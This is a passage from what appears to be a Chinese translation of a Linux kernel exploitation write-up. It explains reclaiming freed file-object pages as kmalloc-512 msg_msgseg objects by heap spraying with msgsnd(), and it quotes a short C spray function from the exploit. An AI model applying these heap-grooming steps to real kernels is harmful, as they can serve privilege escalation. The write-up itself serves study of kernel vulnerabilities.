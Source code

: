 [![](assets/1701612436-f8f8d61434b1bdcf8d4be5c8bd9e63c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230626154616-884166f4-13f5-1.png)

另一方面，如上所述，文件对象（大小为 384）和 kmalloc-512 对象（大小在 256 到 512 之间）位于阶数为 1 的分配块上，这意味着如果我们释放了**filp**页面，则在尝试重新分配时直接针对阶数为 1 的列表可能更容易，如果我们操纵伙伴分配算法以拆分更高订单块，则可以避开此限制（请参见附录），但是我们选择了**kmalloc-512**

## 重新分配为 msg\_msgseg，

现在我们进入了最后阶段，为了将页面重新分配给**kmalloc-512**，我们实际上将尝试使用`msg_msgseg`的内容覆盖文件，我们可以使用通常称为堆喷射（heap spraying）的方法来完成这个过程（也称为对`msgsnd()`进行垃圾邮件轰炸），还有其他喷射堆的方法 - 即使用密钥环、套接字消息或扩展属性，但**System V IPC API**是一种经过验证且易于使用的技术，  
在我们第一次查看攻击代码时，我们到了这里：

```bash
static inline err_t reallocate_filp_page(struct manager *mgr)
{
    IF_ERR_RET(spray_msg(mgr->msq_ids, TOTAL_MSGS, mgr->spray, MSG_SIZE))
    memset((char *)mgr->spray, 0x00, MSG_SIZE);
    return SUCC;
}

err_t spray_msg(uint64_t *store, uint32_t amount, char *data, uint64_t size)
{
    int32_t ret = 0;
    struct msgb* msg = (struct msgb*)data;

    for (uint32_t i = 0; i < amount; i++) {
        msg->mtype = i + 1;
        ret = msgsnd(store[i], msg, size, 0);
        IF_ERR(ret) {
            perror("spray_msg:msgsnd");
            return ERR;
        }
    }

    return SUCC;
}
```
